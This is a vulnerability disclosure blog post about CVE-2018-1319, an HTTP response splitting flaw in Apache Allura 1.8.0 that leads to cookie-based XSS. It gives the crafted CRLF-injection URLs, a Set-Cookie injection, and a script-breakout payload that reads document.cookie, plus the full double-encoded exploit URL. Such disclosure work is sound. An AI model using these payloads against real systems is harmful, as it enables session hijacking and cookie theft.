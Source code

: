 ```yaml
---
title: "XSS via HTTP response splitting in Apache Allura 1.8.0 (CVE-2018-1319)"
layout: post
description: Exploiting an HTTP response splitting to get cookie-based XSS.
date: 2020-02-09
permalink: /2020/02/09/xss-via-http-response-splitting-in-apache-allura-1.8.0/
img: /assets/posts/2020/02/10/allura.png
imgcredit: ""
---
```

Timeline:
- 25 Feb 2018: Contacted vendor, CVE ID requested
- 15 Mar 2018: <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a> assigned
- 09 Feb 2020: This post is published

<br>
<hr>
<br>
## Introduction
While looking for Bitbucket alternatives, I came across the Apache Allura project. Their <a href="https://allura.apache.org/" target="_blank">official documentation</a> describes it as:

> an open source implementation of a software forge, a web site that manages source code repositories, bug reports, discussions, wiki pages, blogs, and more for any number of individual projects.

Getting Allura up and running was easy since the project is <a href="https://forge-allura.apache.org/docs/getting_started/installation.html" target="_blank">very well documented</a>. This allowed me to quickly try things with their code. Running ZAP against my local instance took no time, and ZAP reported that it was able to split HTTP responses by using `%0D%0A` in the HTTP GET parameter `return_to`, in the authentication redirection URL `/auth/?return_to=/`. Tipically, this "return to" functionality is useful to redirect unauthenhticated users to certain resource once they unauthenticate. So when attempting to access a protected resource without a valid session, Allura will:

1. Realize that the user is not authenticated
2. Take the user to the login page while using the `return_to` parameter to
   remember what URL was requested first
3. If the user authenticates successfully, Allura redirects the browser to
   whatever `return_to` pointed to, by using an HTTP `Location` header

<br>
<hr>
<br>
## Exploiting
To get an arbitrary header back from Allura 1.8.0 you must:
1. Create a crafted URL such as `/auth/?return_to=/%0D%0AFoo:%20Bar`
2. Visit the URL
3. Successfully log in
<br>

When dealing with HTTP response splitting, an "easy win" when argumenting why this should be addressed is that attackers could redirect victims to a phishing website by using the ``Location`` HTTP header. In this case, the crafed URL would look like so:
<br>

`/auth/?return_to=/%0D%0ALocation:%20https://example.com`
<br>

However, the normal functionality of Allura 1.8.0 is to already construct a legitimate `Location` header, so injecting a new one will result in the HTTP response having two of them, and modern web browser will refuse to process such responses.
<br>

Another attack vector, which led to the creation of <a target="_blank" href="https://nvd.nist.gov/vuln/detail/CVE-2018-1319">CVE-2018-1319</a>, is to find vulnerabilities in code that handles data coming from the HTTP headers, such as cookie-handling code. To set an arbitrary cookie, the URL would look like this:

`/auth/?return_to=/%0D%0ASet-Cookie:%20Foo%3DBar`
<br>

Allura uses the <a href="https://pypi.org/project/WebFlash/#history">WebFlash</a> component to display feedback messages whenever certain actions are performed by a logged-in user (e.g. in the pages under `/auth/user_info/contacts/`). These messages are communicated to the front-end via the `webflash` cookie. For example, editing your profile will set the following cookie:

{% highlight bash %}
webflash=%7B
  %22status%22%3A%20%22ok%22%2C%20
  %22message%22%3A%20%22Your%20personal%20data%20was%20successfully%20updated%21%22
%7D;
{% endhighlight %}

Whose URL-decoded value is:
{% highlight javascript %}
webflash={
  "status": "ok",
  "message": "Your personal data was successfully updated!"
};
{% endhighlight %}

Which generates the following HTML code:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('Your personal data was successfully updated!', {
    status: 'ok'
  });
</script>
{% endhighlight %}

And shows the following flash message in the front-end:
<br>
<center>
<img width="66%" height="66%" src="/assets/posts/2020/02/10/webflash.png" />
</center>

This means that whatever is in the `webflash` cookie will be picked up by the code generating these messages. To trigger XSS here, the  paylaod for the cookie would look like this:
{% highlight bash %}
{"status":"a'})</script><script>alert(document.cookie)//","message":"xss"}
{% endhighlight %}

Note how the `status` attribute contains the JavaScript payload up to `//`. This will make the computed HTML page looke like this:
{% highlight html %}
<script type="text/javascript">
  $('#messages').notify('xss', {
    status: 'a'
  })
</script>
<script>
  alert(document.cookie)//'});
</script>
{% endhighlight %}

Assembling everything together, the crafted URL would contain the URL-encoded payload (twice), and would look like this:
{% highlight bash %}
/auth/?return_to=/auth/user_info/contacts/%0D%0A
  Set-Cookie:%20webflash%3D%257B
    %2522status%2522%253A%2522a%2527%257D)
    %253C%252Fscript%253E%253Cscript%253Ealert(document.cookie)
    %252F%252F%2522%252C%2522message%2522%253A%2522xss%2522%257D
{% endhighlight %}

PoC:
<br>
<center>
<img src="/assets/posts/2020/02/10/allura_xss.gif" />
</center>
